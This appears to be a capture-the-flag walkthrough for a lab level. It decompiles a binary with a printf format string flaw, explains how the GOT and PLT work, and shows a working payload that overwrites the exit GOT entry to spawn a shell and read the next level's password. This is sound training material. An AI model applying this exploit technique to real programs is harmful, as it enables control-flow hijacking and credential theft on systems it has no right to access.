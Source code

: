 # Walkthrough

## Reversing

```c
void main(void)
{
  n();
  return;
}

void n(void)
{
  char local_20c [520];

  fgets(local_20c,512,stdin);
  printf(local_20c);
  exit(1);
}

void o(void)
{
  system("/bin/sh");
  _exit(1);
}
```

Cool, another format string... zzz...

This one is again, a little different, you we don't need to write in a global
varible, we need to overwrite the return address so it points to the `o`
function.

But, look closely... `n` just exits, so... this will be a little difficult,
we will probably need to mess with the function call to exit in order to
redirect the control flow. We do not want to get in the details for now.
All you need to know is that function calls are made through the
Procedure Linkage Table (PLT), which references the Global Offset Table (GOT).

But, since we have the function `o` already, we won't need to inject shellcode,
just overwrite the address of `exit` to the address of `o`, so, when the binary
gets the address of `exit` from the GOT to call it, it will call `o` instead.

Easy right?

## Exploit

This is a very good and short article that explains [what are GOT and PLT](https://ctf101.org/binary-exploitation/what-is-the-got/).

First, check that indeed our binary is linked dynamically with libc:
```bash
level5@RainFall:~$ ldd ./level5
	linux-gate.so.1 =>  (0xb7fff000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e4e000)
	/lib/ld-linux.so.2 (0x80000000)
```

Cool, it is. This is great because the program is smaller and if libc updates,
I don't need to recompile the binary, so don't get this level wrong, link
your libraries dynamically.

Launch `ldd` a few more times, notice how the address of `libc.so` does not
change, that's because `ASLR` protection is not activated (go to `level00`
readme for an explanation of the different protections).

If we follow the `exit` call the decompiler, you will notice we end up in the
`.plt` section.

Notice that, the function `exit`, is just a `jmp` to other address:
```raw
                     **************************************************************
                     *                       THUNK FUNCTION                       *
                     **************************************************************
                     thunk noreturn void _exit(int __status)
                       Thunked-Function: <EXTERNAL>::_exit
                       assume EBX = 0x8049818
     void              <VOID>         <RETURN>
     int               Stack[0x4]:4   __status
                     <EXTERNAL>::_exit                               XREF[1]:     o:080484bd(c)  
08048390 ff 25 28        JMP        dword ptr [-><EXTERNAL>::_exit]                  void _exit(int __status)
         98 04 08
                     -- Flow Override: CALL_RETURN (COMPUTED_CALL_TERMINATOR)
08048396 68 08 00        PUSH       0x8
         00 00
0804839b e9 d0 ff        JMP        FUN_08048370                                     undefined FUN_08048370()
         ff ff
                     -- Flow Override: CALL_RETURN (CALL_TERMINATOR)
```

That address is on the `.got.plt` section of the binary, and the program will
jump to whatever address is stored there.

```raw
                     PTR__exit_08049828                              XREF[1]:     _exit:08048390  
08049828 04 a0 04 08     addr       <EXTERNAL>::_exit                                = ??
```

If we folow the address:
```raw
                     **************************************************************
                     *                       THUNK FUNCTION                       *
                     **************************************************************
                     thunk noreturn void _exit(int __status)
                       Thunked-Function: <EXTERNAL>::_exit
     void              <VOID>         <RETURN>
     int               Stack[0x4]:4   __status
                     _exit@@GLIBC_2.0
                     <EXTERNAL>::_exit                               XREF[2]:     _exit:08048390(T), 
                                                                                  _exit:08048390(c), 08049828(*)  
0804a004                 ??         ??
0804a005                 ??         ??
0804a006                 ??         ??
0804a007                 ??         ??
```

Of course we can't see anything, because it's an external function.

During compilation we don't know the address of exit, or any other dynamic
linked function, so we just create a "trampoline" function, and we call a
location we know about (the PLT section),  with the `jmp` location referrenced
from a "table", so all we need to do is fill this "table" with the real
addresses.

When we execute a binary the kernel the process is set up by the kernel,
during that time references that that might get resolved.

When we call a function, we can see in a debugger that it does not `jmp` on the
first, but on the second `jmp`, I'm not going to go deep here, let's just say
that it loads the address of `exit` in the GOT, and the next time it enters,
it will go to `exit` on the first `jmp`.

Pretty cool right? Let's overwrite that GOT table so `exit` entry points to `o`.

Let's get the address of `o` with `nm`: `080484a4` (in decimal: `134513828`).

And let's algo get the address of the `exit` (`exit`, not `_exit`) entry on
the `GOT` table (search on the `.got.plt` section): `08049838`.

Cool, this is easy, let's write our payload:
```bash
bc
134513828 - 4
134513824
quit

printf '\x38\x98\x04\x08%%134513824u%%4$n\n' | ./level5
```

It probably worked, I mean, it's a pretty easy exploit, but because the stdin
is not restored, `/bin/sh` probably exited, let's make a script using FIFOs.

Check the script at `./resources/exploit.sh`, launch it:
```bash
./exploit.sh
cd /home/user/level6
cat .pass
```
